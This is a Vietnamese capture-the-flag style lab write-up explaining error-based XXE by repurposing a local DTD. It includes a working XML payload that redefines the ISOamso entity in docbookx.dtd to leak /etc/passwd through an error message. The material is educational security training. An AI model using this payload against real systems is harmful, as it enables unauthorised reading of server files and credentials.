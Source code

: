 <hr>

### Bài 9: Exploiting XXE to retrieve data by repurposing a local DTD
>![](https://i.imgur.com/HxhSPto.png)

Mô tả: chức năng check stock parse XML nhưng không hiển thị kết quả parse. Mục tiêu là trigger error message của chức năng này để hiển thị nội dung file /etc/passwd. Và cần phải tham chiếu đến DTD file có sẵn trên server + định nghĩa lại nó


Tìm kiếm trên mạng, em thấy có nội dung như sau:

```
If a document's DTD uses a hybrid of internal and external DTD declarations, 
then the internal DTD can redefine entities that 
are declared in the external DTD
```

Nghĩa là định nghĩa internal có thể ghi đè các định nghĩa external của DTD

Vì bài này out-of-band connection đã bị block, và các DTD external không thể được load về. => Ta cần sử dụng kĩ thuật Error-Based XXE để khai thác, thông qua một DTD có sẵn trong hệ thống.

Ý tưởng là ta sẽ gọi nó ra sử dụng và tái định nghĩa lại 1 entities gây ra error. Ở đây ta sẽ sử dụng docbookx.dtd

Tái định nghĩa lại entities `ISOamso` và ta có payload để inject như sau.

```xml!
<!DOCTYPE test [
    <!ENTITY % dockbook SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %dockbook;
]>
```

- Định nghĩa 1 parameter entity tên là <kbd>dockbook</kbd> chứa nội dung của external entity `dockbookx.dtd` (file trên hệ thống)
- Tái định nghĩa lại entity <kbd>ISOamso</kbd> trigger error message để hiện nội dung file /etc/passwd
- Sử dụng entity <kbd>dockbook</kbd> để kích hoạt khai thác

Kết quả:

>![](https://i.imgur.com/JtZ9SBb.png)


>![](https://i.imgur.com/jUdSLpE.png)
